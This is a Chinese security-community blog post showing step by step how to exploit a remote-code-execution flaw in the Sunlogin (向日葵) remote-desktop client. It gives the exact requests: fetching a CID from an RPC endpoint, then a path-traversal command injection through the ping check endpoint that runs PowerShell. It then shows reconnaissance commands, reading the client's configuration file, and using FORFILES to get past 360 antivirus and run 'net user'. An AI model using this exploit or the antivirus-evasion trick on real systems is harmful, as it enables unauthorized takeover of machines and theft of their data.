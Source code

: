 #  向日葵RCEbypass   
原创 无问社区  白帽子社区团队   2024-09-14 16:16  
  
本文仅用于技术研究学习，请遵守相关法律，禁止使用本文所提及的相关技术开展非法攻击行为，由于传播、利用本文所提供的信息而造成任何不良后果及损失，与本账号及作者无关。  
  
**关于无问社区**  
  
  
    无问社区致力于打造一个面向于网络安全从业人员的技术综合服务社区，可  
**免费**获取安全技术资料，社区可提供的技术资料覆盖全网，辅助学习的功能丰富。  
  
    特色功能：划词解析、调取同类技术资料、  
**AI助手全网智能检索**、基于推荐算法，为每一位用户量身定制专属技术资料。  
  
  
无问社区-官网：http://wwlib.cn  
  
无问社区站内阅读  
链接：  
  
http://www.wwlib.cn/index.php/artread/artid/9157.html  
  
  
#### 1. 获取 CID  
  
  
```
http://ip:port/cgi-bin/rpc?action=verify-haras
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM6xfYOc2TjKug5ibwo0majjqgGiaA107Wic3kNiaN2UvwVIiarVgIsicicXAPlib5MaibM7icEXIllzKibZ6W1Hg/640?wx_fmt=png&from=appmsg "")  
  
#### 2.借助 ping 命令进行拼接  
  
  
  
修改 Cookie:CID=xxxxx  
```
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fw
indows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershe   ll.exe+%20whoami
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM6xfYOc2TjKug5ibwo0majjqxnKnxGCNK7tMfWZluCSlsTxraBltQwxnhkr8IP2U90wUUWm95oMdTg/640?wx_fmt=png&from=appmsg "")  
  
当存在防护软件时执行命令会告警failed,error 5：表示命令执行失败  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM6xfYOc2TjKug5ibwo0majjqBicFwq2URuGcVr6CTmlh2IMU4hibR3Rg2iaEKkC1lM2fS4FCeDTZAz9mA/640?wx_fmt=png&from=appmsg "")  
  
我们可以先使用他的正常命令 ping 来查看命令执行漏洞是否存在  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM6xfYOc2TjKug5ibwo0majjqGEsvLMZ2F2goy5ny7vrwj6JXwicrX0SeFnZDl2rpuoHa0ibR0cBufhWw/640?wx_fmt=png&from=appmsg "")  
  
我们从上图可以得知 360 是拦截了PowerShell 调用尝试调用CMD 执行命令看看  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM6xfYOc2TjKug5ibwo0majjqWqKAjwEDjOxib7RPgLRmlN5LeKFicBdyQiaVnNCacM9urRw32o5Bp2DDg/640?wx_fmt=png&from=appmsg "")  
  
发现CMD 调用和 PowerShell 调用都被拦截了，思路就此转换成不使用CMD 和 PowerShell  
  
#### 3执行命令  
  
  
  
1.直接调用systeminfo.exe 获取操作系统信息  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM6xfYOc2TjKug5ibwo0majjqrW0UkCKFPnyDLhnv38xaD6FI6XS5KLwy0oaJXiaYEsyaaxIXrFTHk8w/640?wx_fmt=png&from=appmsg "")  
  
2.直接调用 netstat.exe 获取操作系统信息  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM6xfYOc2TjKug5ibwo0majjq0h8lmvwJNbzYN9l38fuqEtFMLMZKQf7SiaEInics1JJCKlyP8B4hV1Cw/640?wx_fmt=png&from=appmsg "")  
  
3.直接调用tasklist.exe 来获得进程信息我们可以看到是存在 360 进程的  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM6xfYOc2TjKug5ibwo0majjqibbj5PAT9xXAmWvcPojSvZvATg7aa6U9vzwdZXP3nLL7pxD2KKU0CXg/640?wx_fmt=png&from=appmsg "")  
  
4.直接调用ipconfig.exe 获得IP 信息  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM6xfYOc2TjKug5ibwo0majjqZmIicANbVkdDib5z6PEyxBIcUKu1ZbmjMttKdbiaS6r3rQrLlQeUd0o7Q/640?wx_fmt=png&from=appmsg "")  
  
5.直接调用arp.exe 获得内网其他IP  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM6xfYOc2TjKug5ibwo0majjquKItg5vY7vUSGy5N5uczP7RkwYjf7Ificaru9QxQ5EDoKicETYwd4gDA/640?wx_fmt=png&from=appmsg "")  
  
6.直接调用whoami.exe 查看当前权限  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM6xfYOc2TjKug5ibwo0majjqSwxcrDNGAT7uEE1n0zy7dFVR6ykCTjgD2aSSep7icibzicaFsperY5CMQ/640?wx_fmt=png&from=appmsg "")  
  
7.使用 findstr.exe 读取向日葵配置文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM6xfYOc2TjKug5ibwo0majjqTJmGBz5mKicxh9yCfaXPNUQnSmKiaw2bwmwzBoqUVJQZ9PibibOmSGyQyQ/640?wx_fmt=png&from=appmsg "")  
  
8.使用FORFILES调用 CMD 执行任意命令bypass 360 拦截(2022-06-26)  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM6xfYOc2TjKug5ibwo0majjqkLwqb5KsbOp4Lxn21AjYB6iayqeE50Qvb814l6j2SrVy9oKVZOpTo9w/640?wx_fmt=png&from=appmsg "")  
  
使用FORFILES 执行 net user 成功执行  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM6xfYOc2TjKug5ibwo0majjq7ddmib6XRV4iaIiaoiaLeS9y9ufOFL3ibUxgrcz4ODDvnzb3RaGoWhEcWJQ/640?wx_fmt=png&from=appmsg "")  
  
正常调用 net.exe 执行 net user 被拦截  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM6xfYOc2TjKug5ibwo0majjq3Xx0eVW10EYRrV2pAPpqib0x6oxqZv5rN3wTTwe00aChMzw6H2LYfHg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM6xfYOc2TjKug5ibwo0majjqITneiaibGVBXjNTAecLpUJcfficIO1yxzAfZkFvw5MXXqes6nOBzFn5wQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
[网络钓鱼：OLE+LNK（文末转发福利）](http://mp.weixin.qq.com/s?__biz=MzkzNDQ0MDcxMw==&mid=2247486835&idx=1&sn=bbb7d535593fbbbad4b3683015e6e0d6&chksm=c2bc7715f5cbfe03c9868c40f662be776f66228756cc75759484ae5019be13aade6eb7c35ba0&scene=21#wechat_redirect)  
  
  
[CTF-phar为协议分析（文末转发奖励）](http://mp.weixin.qq.com/s?__biz=MzkzNDQ0MDcxMw==&mid=2247486815&idx=1&sn=b6075af8d54ebe6cee6545e4b3596234&chksm=c2bc7739f5cbfe2f3aed0f3ade97e3d597262a65ffaaa398cc54cbf91a1b880cfd52c1230557&scene=21#wechat_redirect)  
  
  
[ThinkCMF框架任意内容包含漏洞的讲解](http://mp.weixin.qq.com/s?__biz=MzkzNDQ0MDcxMw==&mid=2247486851&idx=1&sn=8f94ebc62e24af1308f334c4836abe1b&chksm=c2bc77e5f5cbfef333ba1839b91cbe68425b2fb7e331380a10f800f571441a70bd98dba64f59&scene=21#wechat_redirect)  
  
  
[【SRC思路】SRC小姿势（1）](http://mp.weixin.qq.com/s?__biz=MzkzNDQ0MDcxMw==&mid=2247486789&idx=2&sn=151623d6e23416faf3fbdb7449486e58&chksm=c2bc7723f5cbfe3507ef63836cd2005d10e1c3b8080e695e0a9ecd8459eba28c352a4278e8ad&scene=21#wechat_redirect)  
  
  
[无问社区助手1.5来了，海量网安资料随意看（文末转发福利）](http://mp.weixin.qq.com/s?__biz=MzkzNDQ0MDcxMw==&mid=2247486810&idx=1&sn=31fd4adc78e8cdae55de065e3d9728a0&chksm=c2bc773cf5cbfe2abccde97a46a3905679a78554e06afd4a949b45bf4bd131919b8024d74f91&scene=21#wechat_redirect)  
  
  
**加入粉丝群可在公众号页面联系我们进群**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/DK5OZOOglM47PIpoBoeyJicibQ3PhuMAh5j2pc4VJqbWJWzhFSdDB2UocaClr1f3AkhLwF4kibZA6KbyPHwqEkjiaA/640?wx_fmt=gif&from=appmsg "")  
  
**点“阅读原文”，访问无问社区**  
  
  
